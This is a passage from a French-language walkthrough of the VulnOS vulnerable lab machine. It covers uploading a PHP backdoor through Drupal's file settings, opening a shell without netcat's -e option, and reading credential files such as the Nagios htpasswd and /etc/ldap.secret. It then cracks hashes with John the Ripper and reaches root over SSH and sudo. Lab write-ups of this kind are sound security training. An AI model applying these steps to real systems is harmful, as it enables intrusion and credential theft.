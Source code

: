 J'édite un des posts existant pour ajouter ma backdoor PHP en attachement mais celle-ci est renommée en .php.txt :(  

Dans *Administer > Site configuration > Files uploads* j'ai pu ajouter le type phtml puis finalement uploader la backdoor (drupal l'a placée dans */drupal6/sites/default/files/*).  

Netcat est installé sur le système mais ne dispose pas de l'option -e pour y attacher un shell.  

Sur le blog Pentest du SANS j'ai trouvé [un article qui permet de résoudre ce problème via l'utilisation de mknod](http://pen-testing.sans.org/blog/pen-testing/2013/05/06/netcat-without-e-no-problem).  

Un upload de tshd plus tard...  

```plain
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux VulnOS 2.6.32-57-generic-pae #119-Ubuntu SMP Wed Feb 19 01:20:04 UTC 2014 i686 GNU/Linux
```

C'est bien joli mais ça ne nous donne pas un accès root. Le kernel 2.6.32 semble résister aux différents exploits que j'ai pu tester et les services qui tournent en root ne semblent pas plus vulnérables :(  

J'ai donc continué à fouiller dans les fichiers via la faille webmin ou mon accès shell. Finalement j'ai repéré un pattern dans les mots de passe d'abord avec le password Nagios que j'ai pu casser :  

```plain
$ cat /etc/nagios3/htpasswd.users
nagiosadmin:8A86JOBWoCwnk

$ /opt/jtr/john nagios
Loaded 1 password hash (Traditional DES [128/128 BS AVX-16])
canuhack         (nagiosadmin)
guesses: 1  time: 0:05:03:52 DONE (Thu May 29 03:59:22 2014)  c/s: 4605K  trying: canup1or - canuhaci
```

Puis via le contenu du fichier */etc/ldap.secret* : canuhackme  

J'ai créé une wordlist en me basant sur les noms d'utilisateurs récupérés + les mots de passe + des versions préfixées de canu et j'ai lancé JtR sur le fichier shadow :  

```plain
$ /opt/jtr/john --wordlist=passwords.txt --rules shadow
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Loaded 1 password hash (sha512crypt [64/64])
canuhackme       (vulnosadmin)
guesses: 1  time: 0:00:00:00 DONE (Thu May 29 09:13:23 2014)  c/s: 175  trying: canuhackme
```

On peut se connecter à SSH via cet account puis passer root via sudo car il est privilégié :  

```plain
$ ssh vulnosadmin@192.168.1.29
vulnosadmin@192.168.1.29's password: 
Linux VulnOS 2.6.32-57-generic-pae #119-Ubuntu SMP Wed Feb 19 01:20:04 UTC 2014 i686 GNU/Linux
Ubuntu 10.04.4 LTS
(...snip...)
vulnosadmin@VulnOS:~$ id
uid=1000(vulnosadmin) gid=1000(vulnosadmin) groepen=4(adm),20(dialout),24(cdrom),
46(plugdev),109(lpadmin),110(sambashare),111(admin),1000(vulnosadmin)
vulnosadmin@VulnOS:~$ sudo -l
[sudo] password for vulnosadmin: 
Matching Defaults entries for vulnosadmin on this host:
    env_reset

User vulnosadmin may run the following commands on this host:
    (ALL) ALL
```